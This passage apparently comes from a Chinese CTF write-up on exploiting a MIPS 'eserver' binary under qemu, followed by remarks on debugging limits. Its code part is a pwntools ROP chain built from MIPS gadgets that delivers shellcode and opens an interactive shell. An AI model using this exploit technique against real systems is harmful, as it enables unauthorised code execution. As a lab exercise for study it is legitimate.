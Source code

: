 ```python
# .text:000A0C84                 lw      $s2, 0x2C+var_s8($sp)
# .text:000A0C88                 lw      $s1, 0x2C+var_s4($sp)
# .text:000A0C8C                 lw      $s0, 0x2C+var_s0($sp)
# .text:000A0C90                 jr      $ra
# .text:000A0C94                 addiu   $sp, 0x40
'''  
payload += p32(lw_s3_gadget) 				# $ra  
      
payload += b'c'*44
payload += padding                        	# s0
payload += padding                        	# s1
payload += padding                        	# s2
'''
jalr_t9_gadget
# .text:0011C68C                 move    $t9, $a1
# .text:0011C690                 move    $a1, $a0
# .text:0011C694                 jalr    $t9
# .text:0011C698                 move    $a0, $v1
'''
payload += p32(jalr_t9_gadget)            	# s3
'''
addiu_a1_sp_24_gadget
# .text:000F60D4                 addiu   $a1, $sp, 24
# .text:000F60D8                 move    $t9, $s3
# .text:000F60DC                 jalr    $t9
# .text:000F60E0                 li      $a0, 0x1D
''' 
payload += p32(addiu_a1_sp_24_gadget)     	# ra  
payload += b'd'*24
payload += shellcode

p.sendlineafter('Input package: ', payload)
p.sendlineafter('Input package: ', 'EXIT')
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660825333256-3e38bb3c-db62-432d-be4d-7836d588f740.png)

最后出现`ls: write error: Bad file descriptor`的错误，这是因为程序在最后关闭了标准输出：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660825387576-4447e934-e7d6-480b-bb27-cb775c211bfc.png)

我们只需要将流重定向到`stderr`就行：`ls 1>&2`

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660825545050-685e9e05-f976-4760-940a-9b4ff2e7cd13.png)

另外，pwndbg的vmmap命令不支持qemu-user（无法查看内存布局），并且无法对函数直接下断点（b main），总之局限性非常大：

```bash
cyberangel@cyberangel:~/Desktop/MIPS_PWN/eserver$ qemu-mipsel-static -g 1234 -L . ./eserver
----------------------------------------------------------------------------------------------------------------
gdb-multiarch
$ set arch mips
$ set endian little
$ target remote localhost:1234
$ file ./eserver
$ b main  【Breakpoint 1 at 0xfe0】
$ c    		【直接跑飞，无法断下】
```
